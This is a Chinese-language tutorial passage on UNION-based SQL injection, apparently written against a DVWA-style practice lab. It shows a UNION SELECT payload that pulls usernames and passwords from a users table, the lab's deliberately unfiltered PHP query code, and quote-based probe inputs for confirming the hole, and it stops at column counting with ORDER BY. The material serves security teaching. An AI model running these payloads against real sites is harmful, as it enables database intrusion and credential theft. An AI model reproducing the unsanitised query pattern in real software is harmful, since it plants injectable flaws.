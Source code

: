 ```mysql
-- 如果不想要第一个表里的数据 可以把1换成-1 因为默认负数就表示不存在的
SELECT * FROM guestbook WHERE `comment_id`=-1 union SELECT user_id,user,password from users limit 1
```

## union联合注入攻击分析

### 分析联合注入漏洞代码

首先我们先分析构成联合注入攻击的sql注入代码

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    #这里传入的参数没有进行过滤直接进入sql语句
    #从这里可以判断出id是字符串类型 所以在进行sql注入检测的时候要匹配字符
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        //显示查询成功后的内容
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

### 判断是否存在联合注入

​	我们先通过靶场查询id 如果在我们没进行源代码分析的基础上 我们首先需要进行数字和字符串判断 `1` 和`1‘` 判断出传入数据是字符串型 即存在注入漏洞

​	输入 1'and '1'='1 页面返回用户信息 1'and '1'='2 页面返回不一样的信息。基本可以确定存在 SQL 注入漏洞.

### 判断字段数

​	使用语句`order by`确定当前表的字符数

